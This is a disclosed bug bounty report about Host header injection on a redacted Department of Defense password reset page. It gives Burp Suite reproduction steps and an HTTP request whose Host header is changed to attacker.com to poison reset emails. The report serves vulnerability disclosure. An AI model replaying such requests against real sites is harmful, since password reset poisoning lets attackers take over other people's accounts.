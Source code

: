 # Host Header Injection on https://███/████████/Account/ForgotPassword

## Report Details
- **Report ID**: 1679969
- **URL**: https://hackerone.com/reports/1679969
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-08-25T11:29:54.609Z
- **Disclosed**: 2022-10-14T18:03:18.258Z

## Reporter
- **Username**: 696e746c6f6c
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Dear DoD Team,

I found one high bug on your another domain. This is from Hack US Program. Affected domain is https://█████/

An attacker can manipulate the Host header as seen by the web application and cause the application to behave in unexpected ways.
Very often multiple websites are hosted on the same IP address. This is where the Host Header comes in. This header specifies which website should process the HTTP request. The web server uses the value of this header to dispatch the request to the specified website. Each website hosted on the same IP address is called a virtual host. And It's possible to send requests with arbitrary Host Headers to the first virtual host.

Here's the PoC btw:

███

Thank you DoD!

## Impact

Tampering of Host header can lead to the following attacks:
1) Web Cache Poisoning-Manipulating caching systems into storing a page generated with a malicious Host and serving it to others.
2) Password Reset Poisoning-Exploiting password reset emails and tricking them to deliver poisoned content directly to the target.
3) Cross Site Scripting - XSS can be performed, if the value of Host header is used for writing links without HTML-encoding. For example Joomla used to write Host header to every page without HTML Encoding like this: <link href=”http://_SERVER['HOST']”> which led to cross site scripting.
4) Access to internal hosts-To access internal hosts.
5.) It can also lead to Phishing Attacks.

## System Host(s)
███████

## Affected Product(s) and Version(s)
Users are affected

## CVE Numbers


## Steps to Reproduce
1. Go to this domain: https://███/████████/
2. Go to vendor login.
3. Create a test account.
4. Go to Forgot Password Reset: https://████/██████/Account/ForgotPassword
5. Before inserting your email. 
6. Turn your foxy proxy on.
7. Open your burp suite and go to http history tab.
8. Now insert your email.
9. In http history in burp you will see this request:

```javascript
POST /████████/Account/ForgotPassword HTTP/1.1
Host: ███
Cookie: .AspNetCore.Antiforgery.wZhPOrJ1UhI=; TS014b77bb=; ASP.NET_SessionId=; TS0144f203=; CSRF-TOKEN=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: hr,hr-HR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Csrf-Token: 
X-Requested-With: XMLHttpRequest
Content-Length: 35
Origin: https://███████
Referer: https://████/█████████/Account/ForgotPassword
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"Email":"███████"}
```
10. Send this request to repeater tab.
11. Change Host headet to attacker.com
12. It shoud look like this:

```javascript
POST /████████/Account/ForgotPassword HTTP/1.1
Host: attacker.com
Cookie: .AspNetCore.Antiforgery.wZhPOrJ1UhI=; TS014b77bb=; ASP.NET_SessionId=; TS0144f203=; CSRF-TOKEN=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: hr,hr-HR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Csrf-Token: 
X-Requested-With: XMLHttpRequest
Content-Length: 35
Origin: https://████
Referer: https://███████/████/Account/ForgotPassword
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
```
13. Now send request and you will get 200 OK response.
14. Go to your mail/gmail.
15. You will see some magic.
16. PoC is down there.

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
